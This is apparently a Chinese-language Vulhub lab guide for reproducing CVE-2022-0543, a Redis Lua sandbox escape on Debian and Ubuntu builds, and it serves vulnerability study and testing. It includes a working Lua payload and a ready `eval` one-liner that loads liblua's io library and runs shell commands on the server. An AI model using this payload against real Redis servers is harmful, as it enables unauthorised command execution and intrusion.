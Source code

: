 # Redis Lua沙盒绕过命令执行（CVE-2022-0543）

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Debian以及Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象`package`，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

参考链接：

- <https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce>
- <https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787>

## 漏洞环境

执行如下命令启动一个使用Ubuntu源安装的Redis 5.0.7服务器：

```
docker compose up -d
```

服务启动后，我们可以使用`redis-cli -h your-ip`连接这个redis服务器。

## 漏洞复现

我们借助Lua沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`。在Lua中执行这个导出函数，即可获得`io`库，再使用其执行命令：

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

值得注意的是，不同环境下的liblua库路径不同，你需要指定一个正确的路径。在我们Vulhub环境（Ubuntu fiocal）中，这个路径是`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`。

连接redis，使用`eval`命令执行上述脚本：

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

可见命令已成功执行：

![](1.png)
